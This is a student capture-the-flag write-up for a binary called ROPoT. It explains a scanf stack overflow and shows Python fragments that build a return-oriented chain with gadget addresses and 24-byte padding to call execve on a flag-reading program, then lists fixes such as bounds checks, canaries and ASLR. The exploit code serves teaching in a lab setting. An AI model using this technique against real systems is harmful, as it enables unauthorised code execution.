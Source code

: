 ROPoT              
=====
 
Overview                   
--------
This program lets the user make the decisions that a robot sitting on a planet next to its crashed spaceship should take. After introducing its serial number, the user is introduced to the current situation of the robot, and asked to choose the next action of this robot. The execution of the program will end when the robot chooses to go into standby, or after a certain number of iterations.
 
 
Vulnerability                   
-------------
When analyzing the assembly code, we can see that there is a function "subroutine_init", that is responsible for reading the serial number of the "robot". By only study the assembly code, we can determine that it has a behavior similar to:
 
<pre><code>
void subroutine_init(){
   char serialnumber[8];
   printf("We wake up slightly outside of a crashed spaceship. Our systems ask for a serial number before resuming operation.\n[!] ENTER SN:");
   fflush(stdout);
   scanf("%s",serialnumber);
   printf("After parsing the serial number '%s', our systems continue to boot.", serialnumber);
   return;
}
</code></pre>
 
 
In the function above, we can observe that the function *scanf* is causing a vulnerability, as it doesn't establish bounds for the input given by the user and doesn't verify if it can be saved in the variable *serialnumber*.
 
Additionally, it is possible to determine the address of the functions in *libc*, such as system calls, as the program was statically linked. We can easily take control of the flow of the execution. This is facilitated by the lack of protection of the return address.
 
Exploitation                   
------------
As I stated previously, we (Cláudia Silva e12135542 and myself) started by testing how the program reacts when receiving a big input.
Our goal when overflowing the program was to reach the return address to the calling function, so we could control the flow of the program.
As we saw in the assembly code of the function previously mentioned, we had a guess that a segmentation fault would happen in that function when we wrote a string of size 24, as the program allocated 16 bytes for the array, and as between it and the saved eip it's the saved base pointer, which is written on 8 bytes of the stack. We tried it, and some other different sizes and used gdb to verify where the input would be written. Our initial guess ended up revealing itself true.
 
<pre><code>
           padding = b'A'*24
 
</code></pre>
 
We knew that the executable *mars* open the file flag and that the program is defined on a sandbox, which means we couldn't open a bash and execute the program mars. Therefore, we decided to use, as suggested, the system call *execve*.
In order to do so, we used the command ROPgadgets to find the pieces we needed.
As we wanted to use *execve*, we needed to prepare the registers that this function receives as input (%rdx,%rax,%rdi,%rsi) and use the gadgets to do the pop of these. We also needed the ROPgadget for the function syscall in order to call the function *execve*.
 
<pre><code>
           popRdi = p64(0x4018ea)
           popRsi = p64(0x40f6be)
           popRdx = p64(0x4017ef)
           ...
           popRax = p64(0x459e97)
           ...
           syscallGadget = p64(0x4012e3)
</code></pre>
 
 
When this last function is call, the registers needed to have the following values: %rax need to have the hexadecimal value equal to 59 as this is the value of the function we desired to use and the %rdi need to have a pointer for a address in memory that kept the string "./mars". Both %rsi and %rdx would be equal to *NULL*.
 
<pre><code>
           payload += popRax
           payload += p64(0x3b)
           payload += popRdi
           payload += p64(0x4e1bc0) #address for writable memory
           payload += popRsi
           payload += p64(0)
           payload += popRdx
           payload += p64(0)
</code></pre>
 
In order to add the string "./mars" to an address in memory, we need another ROPgadget, similar to "mov qword ptr [\_], \_ ; ret", and we need to do the pop of the registers that would be used in this gadget. Besides this, we also need to find a place in memory to write the string; we used the command "objdump -x" to do so and use the address “0x4e1bc0”.
 
<pre><code>
           writeGadget = p64(0x428838)
           ...
           payload += popRax
           payload += b'./mars\x00\x00'
           payload += popRdx
           payload += p64(0x4e1bc0) #address for writable memory
           payload += writeGadget
</code></pre>
 
With all of these parts we build the final payload, that is presented in the file "script_soluction.py" that it's submitted with this writeup.
  
 
Solution
--------
We can easily notice that few modifications are obvious, such as adding bounds to *scanf*. We could also have enabled canaries as an extra layer of protection, when compiling. Even though there was a mechanism in place that tried to ensure that control transfers were into a trusted approved code, we were still able to overwrite it.
We could also have used *ASLR: Address Space Layout Randomization"*, as a run-time protection mechanism. This would prevent the attacker from knowing which addresses are binary codes loaded into, making it harder to invoke different programs or functions defined in libc.